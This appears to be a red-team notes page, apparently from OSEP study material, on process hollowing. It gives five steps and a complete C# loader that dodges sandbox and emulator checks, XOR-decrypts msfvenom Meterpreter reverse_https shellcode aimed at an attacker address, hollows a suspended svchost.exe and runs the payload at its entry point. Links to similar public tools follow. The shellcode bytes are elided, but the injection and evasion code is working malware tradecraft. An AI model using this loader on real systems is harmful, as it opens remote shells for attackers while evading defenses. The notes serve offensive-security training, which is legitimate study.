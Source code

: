 # Process Hollowing




## Hollow with Shellcode

* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Hollowing/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Hollowing/Program.cs)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/DinvokeProcessHollow.cs](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/DinvokeProcessHollow.cs)

1\. Create the target process (e. g., `svchost.exe`) in a suspended state.

![](/.gitbook/assets/004.png)

2\. Query created process to extract its base address pointer from PEB (**P**rocess **E**nvironment **B**lock).

![](/.gitbook/assets/005.png)

3\. Read 8 bytes of memory (for 64-bit architecture) pointed by the image base address *pointer* in order to get the actual value of the image base address.

![](/.gitbook/assets/006.png)

4\. Read 0x200 bytes of the loaded EXE image and parse PE structure to get the EntryPoint address.

![](/.gitbook/assets/007.png)

5\. Write the shellcode to the EntryPoint address and resume thread execution.

![](/.gitbook/assets/008.png)

{% code title="ProcessHollower.cs" %}
```csharp
using System;
using System.Runtime.InteropServices;

namespace ProcessHollower
{
    class Program
    {
        public const uint CREATE_SUSPENDED = 0x4;
        public const int ProcessBasicInformation = 0;

        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Ansi)]
        struct STARTUPINFO
        {
            public Int32 cb;
            public IntPtr lpReserved;
            public IntPtr lpDesktop;
            public IntPtr lpTitle;
            public Int32 dwX;
            public Int32 dwY;
            public Int32 dwXSize;
            public Int32 dwYSize;
            public Int32 dwXCountChars;
            public Int32 dwYCountChars;
            public Int32 dwFillAttribute;
            public Int32 dwFlags;
            public Int16 wShowWindow;
            public Int16 cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_INFORMATION
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public int dwProcessId;
            public int dwThreadId;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_BASIC_INFORMATION
        {
            public IntPtr Reserved1;
            public IntPtr PebAddress;
            public IntPtr Reserved2;
            public IntPtr Reserved3;
            public IntPtr UniquePid;
            public IntPtr MoreReserved;
        }

        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
        static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);

        [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
        private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, uint ProcInfoLen, ref uint retlen);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern uint ResumeThread(IntPtr hThread);

        [DllImport("kernel32.dll")]
        static extern void Sleep(uint dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        static void Main(string[] args)
        {
            // Check if we're in a sandbox by calling a rare-emulated API
            if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
            {
                return;
            }

            // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
            var rand = new Random();
            uint dream = (uint)rand.Next(10000, 20000);
            double delta = dream / 1000 - 0.5;
            DateTime before = DateTime.Now;
            Sleep(dream);
            if (DateTime.Now.Subtract(before).TotalSeconds < delta)
            {
                Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                return;
            }

            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 -f csharp --encrypt xor --encrypt-key a
            byte[] buf = new byte[???] {
            0x31,0x33,...,0x33,0x37 };

            // XOR-decrypt the shellcode
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'a');
            }

            // Create the target process (e. g., svchost.exe) in a suspended state
            STARTUPINFO si = new STARTUPINFO();
            PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
            bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero, IntPtr.Zero, false, CREATE_SUSPENDED, IntPtr.Zero, null, ref si, out pi);

            // Query created process to extract its base address pointer from PEB (Process Environment Block)
            PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
            uint tmp = 0;
            IntPtr hProcess = pi.hProcess;
            ZwQueryInformationProcess(hProcess, ProcessBasicInformation, ref bi, (uint)(IntPtr.Size * 6), ref tmp);
            // Pointer to the base address of the EXE image: BASE_ADDR_PTR = PEB_ADDR + 0x10
            IntPtr ptrImageBaseAddress = (IntPtr)((Int64)bi.PebAddress + 0x10);

            // Read 8 bytes of memory (IntPtr.Size is 8 bytes for x64) pointed by the image base address pointer (ptrImageBaseAddress) in order to get the actual value of the image base address
            byte[] baseAddressBytes = new byte[IntPtr.Size];
            IntPtr nRead = IntPtr.Zero;
            ReadProcessMemory(hProcess, ptrImageBaseAddress, baseAddressBytes, baseAddressBytes.Length, out nRead);
            // We're got bytes as a result of memory read, then converted them to Int64 and casted to IntPtr
            IntPtr imageBaseAddress = (IntPtr)(BitConverter.ToInt64(baseAddressBytes, 0));

            // Read 200 bytes of the loaded EXE image and parse PE structure to get the EntryPoint address
            byte[] data = new byte[0x200];
            ReadProcessMemory(hProcess, imageBaseAddress, data, data.Length, out nRead);
            // "e_lfanew" field (4 bytes, UInt32; contains the offset for the PE header): e_lfanew = BASE_ADDR + 0x3C
            uint e_lfanew = BitConverter.ToUInt32(data, 0x3C);
            // EntryPoint RVA (Relative Virtual Address) offset: ENTRYPOINT_RVA_OFFSET = e_lfanew + 0x28
            uint entrypointRvaOffset = e_lfanew + 0x28;
            // EntryPoint RVA (4 bytes, UInt32; contains the offset for the executable EntryPoint address): ENTRYPOINT_RVA = BASE_ADDR + ENTRYPOINT_RVA_OFFSET
            uint entrypointRva = BitConverter.ToUInt32(data, (int)entrypointRvaOffset);
            // Absolute address of the executable EntryPoint: ENTRYPOINT_ADDR = BASE_ADDR + ENTRYPOINT_RVA
            IntPtr entrypointAddress = (IntPtr)((UInt64)imageBaseAddress + entrypointRva);

            // Write the shellcode to the EntryPoint address and resume thread execution
            WriteProcessMemory(hProcess, entrypointAddress, buf, buf.Length, out nRead);
            ResumeThread(pi.hThread);
        }
    }
}
```
{% endcode %}




## Hollow with EXE

* [https://github.com/m0n0ph1/Process-Hollowing](https://github.com/m0n0ph1/Process-Hollowing)
* [https://gist.github.com/gnh1201/6a3836468c898f7ad3a3656e6f24dce3](https://gist.github.com/gnh1201/6a3836468c898f7ad3a3656e6f24dce3)
* [https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations](https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations)

